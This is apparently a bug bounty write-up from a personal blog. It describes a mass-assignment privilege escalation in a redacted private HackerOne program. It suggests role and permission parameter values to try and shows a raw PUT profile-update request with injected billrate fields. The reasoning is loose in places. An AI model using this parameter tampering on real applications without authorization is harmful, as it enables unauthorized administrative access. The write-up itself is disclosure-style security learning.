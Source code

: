 ```yaml
---
title: 'EN \| Administrator level Privilege Escalation story'
date: 2020-03-19
permalink: /posts/administrator-level-privilege-escalation-story/
tags:
  - privilege escalation
  - administrator level
  - Bug Bounty
  - hack
  - bugbounty
  - write-up
  - poc
excerpt: 'EN \| Administrator level Privilege Escalation story'
---
```


In January of this year, I participated in a private program on HackerOne that was vulnerable to a Privilege Escalation. This is a private program, I can not disclose the name or company-related information per their request because of this I censored some parts of screenshots and requests. However, I wanted to share the details on how I escalated my basic privileges from a regular account to an admin user.

### Recon
Recon is the most important thing in the bug bounty, but this time I needn’t much to it. Because the Privilege Escalation was in the main domain. So I focused on requests and responses. 

### The most important step
The most important step to finding a privilege escalation is understanding to “How the application works?”, If you don’t pass this step, you can find privilege escalations easily. 

### Understanding the working principle of the application
There is only one tip. 
Read the field manual. (documentation)

<img src="/images/PrivEsc-BlogPost-1.png">  


### Finding Story
Refer to my penetration testing process, firstly I look for requests and responses. So, I did the same.

**URL Request:**
https://PRIVATE-PROGRAM.ext/me path and saw `whoami` code snippet in source-code and there were some privileges.

**whoami code snippet :**
`model_access_rules"
{"role":"administrator","user_type_id":1,"level":"userlevel10","model":"BillRate","allow_create":"all","allow_read":"all","allow_update":"all","allow_destroy":"all"},
{"role":"team_member","user_type_id":3,"level":"userlevel30","model":"BillRate","allow_create":"none","allow_read":"none","allow_update":"none","allow_destroy":"none"}`

<img src="/images/PrivEsc-BlogPost-3.png">  

This is a very good reference to find a privilege escalation, right? 

I am reading the code snippet and I understand that We can not update, create, read or destroy the “billrate” but an administrator can.



Examples : 

> `role` : We all know what is this. Change it to “admin, administrator, root”
> `user_type_id` : This refers to your privilege levels as integer. So we can put “0, 1, -1” to ours. 
> `level` : Doing the same function with the `user_type_id`, we can change it to “userlevel10”
> `allow_*` : This is controlling your privileges, so change it to “True, 1, yes, all”


So, we know what can I do with these parameters. Now we need only “How can we change these parameters?”. 


### Eureka! Eureka!
The website has a “profile update” function, we can add our potential vulnerable parameters to this request.


**Normal REQUEST:**
PUT /api/users/752902 HTTP/1.1
Host: PRIVATE-PROGRAM
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 316
Cookie: *redacted*

first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed 


Adding our potential vulnerable parameters to the request

**Vulnerable REQUEST:**
PUT /api/users/752902 HTTP/1.1
Host: PRIVATE-PROGRAM
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 316
Cookie: *redacted*

first_name=hacker&last_name=hacker&location=...&tags=...&custom_field_values=...&email=samet%40wearehackerone.com&license_type=licensed &**billability_target=1337&billrate=1337**



We have an administrator-level privilege escalation now...

### The end : 
But it is duplicate.
<img src="/images/PrivEsc-BlogPost-2.png">  
